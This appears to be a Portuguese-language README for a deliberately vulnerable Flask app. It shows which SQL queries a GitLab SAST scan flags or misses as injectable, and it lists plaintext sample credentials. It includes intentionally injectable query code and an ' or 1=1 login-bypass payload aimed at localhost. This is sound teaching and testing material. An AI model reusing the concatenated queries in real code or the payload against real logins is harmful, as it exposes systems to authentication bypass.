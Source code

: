 
# flask-sql-injection
  

Aplicação Flask + BD para demonstração de uma vulnerabilidade SQL Injection identificada pelo SAST do .gitlab-ci.yml.

## mydb.db

|id|user |password|
|--|--|--|
|1 |teste@teste.com |1234|
|2 |teste2@teste.com |1234|
|3 |teste@teste.com |12345678|
|4 |teste2@teste.com |87654321|
  
## Código

    66 sql_Query_Not_Injection = text("select * from user where id=:user_id")
    67 result = conn.execute(sql_Query_Not_Injection, user_id = id)
    68
    69 sql_Query_Injection_False_Negative = text("SELECT * FROM users WHERE username = '" + username_from_url + "'"
    70                                      " AND password = " + password_from_url)                                         
    71 result = conn.execute(sql_Query_Injection_False_Negative)
    72
    73 # deprecated in SQLAlchemy >=2.0
    74 sql_Query_Injection = "SELECT * FROM users WHERE id={}".format(id)
    75 result = conn.execute(sql_Query_Injection)

 - As linhas 66 e 67 **não contém** uma vulnerabilidade SQL Injection;
 - As linhas 69 a 71 **contém** uma vulnerabilidade SQL Injection, **não identificável** no SAST do .gitlab-ci;
 - As linhas 74 e 75 **contém** uma vulnerabilidade SQL Injection, **identificável** no SAST do .gitlab-ci.

## Deploy com docker compose, com MySQL
```
$ docker compose up -d
```

## Deploy local, com SQLite
```
$ python app/app.py run
```
## Explorando a vulnerabilidade

Importar a collection flask-sql-injection.postman_collection.json no Postman

OU

```
$ GET http://127.0.0.1:5000/login?username=%27%20or%201=1;%20--&password=1234
```

```
POST /login HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 48

username='%20or%201%3D1%3B%20--%20&password=1234
```
Baseado no projeto [EstudosAvancadosSI](https://github.com/BrunoEleodoro/EstudosAvancadosSI)